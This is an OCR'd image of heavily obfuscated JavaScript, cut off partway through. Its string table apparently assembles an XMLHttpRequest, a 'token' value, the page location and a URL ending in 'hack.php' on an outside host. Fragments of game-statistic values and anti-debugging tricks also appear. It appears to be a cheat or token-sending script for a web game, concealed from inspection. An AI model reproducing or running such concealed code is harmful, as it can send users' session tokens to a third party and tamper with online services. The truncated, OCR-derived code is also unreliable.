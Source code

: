 function _0x255b(){var _0x432cec=['get','otweD','SMOnH','RUWzN','OxLHi','while','token','qUMaa','ptor','TCdjY','inclu','ssWOa','nAGJn','wKwXc','nEkIL','FIuKc','136WMwumq','pLaHs','he\x20St','debu','DEiXK','CiyQl','UOykV','zciTm','XMLHt','Stats','ZTgig','meOkQ','14712GQQxQZ','xApcO','age','https','ertyD','pJvbP','nlaLr','apzdH','3737.','dlIME','LQjND','SVdpR','stats','oTcaR','tpReq','HYfxv','dLnUq','rSOue','TVGyK','oUuwD','wcTfp','TjtgU','oEBgM','AkTZt','poljL','viTtu','000we','Plus\x22','strin','locat','UrGkI','QIedl','sScBe','respo','fItOw','2431332rXXvbA','99\x22','ceAll','BnGjF','WuWOM','\x22:\x2220','yByNV','LmNrv','bjtwM','://re','ITmni','uest','aFWOO','CPFwH','VqvdB','BaraP','INcCJ','*(?:[','mjzNe','test','pcSSC','gcNNA','jRAqL','33FEBieA','oZYid','FNbYp','cVtOQ','RnPLd','FadWh','RCsfA','mNSUG','TtMTT','JobIE','462102ayclrY','hpoBx','WyboR','jUymZ','FMaJL','yndow','VnvFg','opsAX','zgMQL','ats\x20P','sdOXF','FdQOO','DFUTI','nTXtr','e)\x20{}','Z_$][','cdLpD','des','WKpct','ructo','IrXyF','MRVfA','a-zA-','60606','actio','uccAe','ENpTs','zA-Z_','defin','35LLeAOV','vMnzi','UJFGr','158DILlNL','prMOu','\x22:606','lable','DSocc','$]*)','\x5c(\x20*\x5c','rLLNq','lVFUA','nProp','TGWuP','YsnlM','XwTAA','0-9a-','yEYNq','jBdHI','ThXNT','kqzgR','ieHMl','KHxzZ','VAENh','seMNe','LPTzi','FiwdW','JQUVa','oCOUC','qQUEH','CARHP','getOw','xtejV','PWjxa','iNxMf','mAIma','5765mmcznB','nseTe','zJeky','type','231XJKTbZ','eKkri','boTBz','gWrWn','WzZzs','vdsga','cMCGy','CyUWf','NcZxp','vzklf','GbGed','HnVIk','sAvai','fRIXu','wafnj','KnURe','VQgLF','jHnFT','call','vCmfx','repla','GkhAR','IfSDW','k\x20Me\x22','uZKJR','\x5c+\x5c+\x20','cjNXn','ZgTlQ','SxffD','er\x22','om/ha','escri',',\x20\x22pl','funct','Objec','gger','rSPbN','00000','DoCzd','IXHJT','ion\x20*','bound','close','sQizA','IXFkE','rZuKo','kmwQN','erty','app.c','lEvNk','\x20(tru','eGaCL','HZXkC','FOapL','jXsZx','chain','hKrIA','bCsqb','eProp','\x22:0','log','proto','ion','goXrV','moVEv','xBuTi','172613kUUjPn','lengt','4822713xDEyIO','ZteAu','init','Mbfsu','PtIfB','state','DSyqm','count','gsCrE','UoWRn','Start','fSaGT','bufgc','VhqgU','ifBYc','06060','STAFb','RYTQy','lybiV','qsoDd','smfbi','aQtag','sTmBu','apply','epBiQ','Not\x20t','plGyU','href','00600','pFphF','uEhoX','2613680mMOaLe','qnFFw','IxgzT','ufMfS','ZtOIP','naOeC','vAaLk','ZYgFB','const','RppdV','\x22Drin','nsfNn','anEnd','kkpIa','trdtn','uJHCk','owzxR','input','ggnyc','uSBQl','bhost','RBFPK','ck.ph','YHHnQ','mFkyT','eqQGc','\x20Page'];_0x255b=function(){return _0x432cec;};return _0x255b();}(function(_0x2cd717,_0x24fbaa){function _0x109a7c(_0x56fcc4,_0x285d66,_0x5405dc,_0x40a55,_0x82d529){return _0x1059(_0x40a55- -0xd4,_0x285d66);}function _0xef9f88(_0x22bc50,_0x373e92,_0x35d6d9,_0x27235a,_0x50ca91){return _0x1059(_0x50ca91- -0x1d4,_0x373e92);}function _0x332b2d(_0x533ae9,_0x22acc5,_0x52bfb6,_0x4b2807,_0x4a2963){return _0x1059(_0x4b2807-0x23c,_0x22acc5);}var _0x43eb9f=_0x2cd717();function _0xe77304(_0x6fb480,_0x1ea373,_0x109fb5,_0x21af4f,_0x1f30ac){return _0x1059(_0x1f30ac- -0x93,_0x21af4f);}function _0x12521d(_0x46e716,_0x2ce7aa,_0x59aa6d,_0x51666c,_0x366a15){return _0x1059(_0x2ce7aa- -0x7f,_0x51666c);}while(!![]){try{var _0xac2501=parseInt(_0x109a7c(0x4b,0x7a,-0x53,0x2c,0x7c))/(-0x1*0x1849+-0x4*0x1d3+0x1f96)*(-parseInt(_0x109a7c(0x4b,0x8c,-0x66,0xb,0x63))/(0x1*-0x1593+0x4d*0x5f+-0x6fe*0x1))+parseInt(_0xef9f88(-0x5a,-0xb2,-0x56,-0x143,-0xd0))/(-0xe8*-0x4+-0x1*0xfe9+0xc4c)*(parseInt(_0xef9f88(-0xde,-0x107,-0x1cb,-0x1ac,-0x159))/(-0x1*-0xb15+-0x4fd*-0x3+0x22*-0xc4))+parseInt(_0x109a7c(-0x65,-0x1c,-0x26,0x8,-0x70))/(-0x1*-0x17dd+0x2667+-0x1*0x3e3f)*(parseInt(_0x109a7c(-0x50,-0xf,0x4c,-0x15,-0x30))/(0xc49+0x12cf+-0x1f12))+parseInt(_0x332b2d(0x404,0x2f1,0x36a,0x382,0x337))/(0x14e7*0x1+-0xfd+-0x13e3)*(-parseInt(_0x12521d(0x1e,-0x10,-0x40,-0x4d,0x73))/(-0xcc0+-0x9b*-0x1c+-0x42c))+-parseInt(_0xef9f88(-0xfb,0x4,-0xc,-0xb3,-0x8c))/(-0x235f*-0x1+0x1ffe+-0x4354)+parseInt(_0xef9f88(-0x80,-0x86,-0x8,-0xd3,-0x6d))/(-0xd4*-0x8+0x1910+-0x1fa6)+parseInt(_0x12521d(0xbd,0x36,0x34,0x7,0x6))/(0x2e1*-0x1+-0x1*0xfa7+-0x13d*-0xf)*(parseInt(_0x12521d(0x2e,0x1f,-0x54,-0x1d,0x1c))/(0x1d87+0x25ff+-0x437a));if(_0xac2501===_0x24fbaa)break;else _0x43eb9f['push'](_0x43eb9f['shift']());}catch(_0x4e3ef9){_0x43eb9f['push'](_0x43eb9f['shift']());}}}(_0x255b,-0x4bebd+-0x6a*-0x1366+-0x3b*-0x458),function(_0x2d4dc5){var _0x130672={'seMNe':function(_0x54d92b,_0x2abbf1){return _0x54d92b(_0x2abbf1);},'eqQGc':function(_0x3fb825){return _0x3fb825();},'CyUWf':function(_0x47d2f0){return _0x47d2f0();},'wcTfp':function(_0x1c6531,_0x2eb441){return _0x1c6531===_0x2eb441;},'FNbYp':_0x1e1657(-0x2e8,-0x30c,-0x2a2,-0x2f0,-0x340),'hpoBx':function(_0x235ae4,_0x557d96){return _0x235ae4!==_0x557d96;},'LQjND':_0x1f93e0(0x171,0x10b,0xe6,0x12b,0x170),'uccAe':_0x1e1657(-0x333,-0x2de,-0x31c,-0x32c,-0x31f),'dLnUq':function(_0x3457a6,_0x27975a){return _0x3457a6(_0x27975a);},'vdsga':_0x2895e1(-0x188,-0x189,-0x1d7,-0x22b,-0x1c6),'jHnFT':function(_0x4b6765,_0x1961f9){return _0x4b6765!==_0x1961f9;},'cMCGy':_0x562890(0x305,0x37a,0x2a1,0x362,0x310),'kkpIa':function(_0x804f0c,_0x41bbaa){return
